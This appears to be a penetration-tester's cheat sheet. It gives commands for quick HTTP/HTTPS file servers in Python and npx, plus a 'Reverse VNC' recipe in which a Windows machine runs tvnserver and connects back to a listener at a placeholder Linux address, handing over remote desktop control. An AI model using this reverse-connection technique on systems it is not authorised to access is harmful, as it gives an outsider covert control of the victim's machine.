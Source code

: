 # Simple HTTPS Python 3.X server
```python
# sudo python3
from http.server import HTTPServer, SimpleHTTPRequestHandler
import ssl, os
os.system("openssl req -nodes -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -subj '/CN=mylocalhost'")
port = 443
httpd = HTTPServer(('0.0.0.0', port), SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, keyfile='key.pem', certfile="cert.pem", server_side=True)
print(f"Server running on https://0.0.0.0:{port}")
httpd.serve_forever()
```

# Simple HTTP Python 3.X server
```sh
python3 -m http.server 8000
```

# Simple HTTP Python 2.X server
```sh
python -m SimpleHTTPServer 8000
```

# Simple HTTP npm server via npx
```sh
npx http-server -p 8000
```

# [Reverse VNC](https://blog.kennyjansson.com/2018/03/04/reverse-vnc-shell/)
## Server - Linux
```sh
vncviewer -listen 0
```

## Client - Windows
```batchfile
:: https://www.tightvnc.com/download.php
:: the file can be unpacked from MSI using 7z
tvnserver.exe
:: cmd /c tvnserver
tvnserver.exe -controlapp -connect <linux_ip>:5500
```
